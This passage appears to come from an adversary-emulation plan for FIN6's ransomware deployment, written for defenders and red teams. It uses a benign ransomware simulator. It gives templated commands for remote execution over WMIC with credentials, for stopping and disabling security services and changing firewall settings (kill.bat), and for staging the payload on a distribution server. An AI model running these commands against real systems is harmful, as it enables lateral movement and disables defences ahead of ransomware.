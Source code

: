 For organizations interested in emulating FIN6’s use of ransomware, the group is believed to have compromised and configured internal servers as distribution nodes.  Ransomware was hosted on these "deployment servers" with a BAT file (kill.bat) to disable security products and prepare hosts for compromise.  Additional BAT files were used to distribute both the ransomware and kill.bat.  These files were then executed by way of WMIC or PsExec.<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup> <sup>[12](https://fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

You are encouraged to use a ransomware simulator of your choosing.  We have opted to use [SimulateRansomware](https://github.com/BlackBox-CSP/SimulateRansomware).  This simple PowerShell script creates an "EncryptionTest" directory in My Documents PATH, creates 2 files, and writes random ASCII characters to simulate file open/close.  So as to remain operationally representative (name-wise), we used PS2EXE to compile the script into sss.exe.<sup>[12](https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

### Procedures

#### 7.1 Copy kill script (kill.bat/windows.bat), distribution script (xaa.bat, xab.bat, xac.bat, etc.), and ransomware (sss.exe) to the distribution server. ([T1047](https://attack.mitre.org/techniques/T1047/)) ([T1059.003](https://attack.mitre.org/techniques/T1059/003/)) <sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup> <sup>[12](https://www.fireeye.com/blog/threat-research/2020/05/tactics-techniques-procedures-associated-with-maze-ransomware-incidents.html)</sup>

##### Strings from xaa.bat:

```sh
wmic /node:#{Ransomware recipient} /user:#{"domain\username"} /password:#{"password"} process call create "cmd.exe /c copy \\#{internal IP}\c$\windows\temp\sss.exe c:\windows\temp\"
```
Kill.bat disables security products and alters firewall configs using binaries native to Windows.  ([T1562.001](https://attack.mitre.org/techniques/T1562/001), [T1562.004](https://attack.mitre.org/techniques/T1059/004))

Strings from kill.bat:

```sh
net stop #{ }

sc config #{ } start=disabled

taskkill /IM #{ } /F

netsh #{ }
```

##### Copy the ransomware to the distribution server

FIN6 Procedure

```sh
copy sss.exe \\#{Distribution Server}\c$\windows\temp\
```
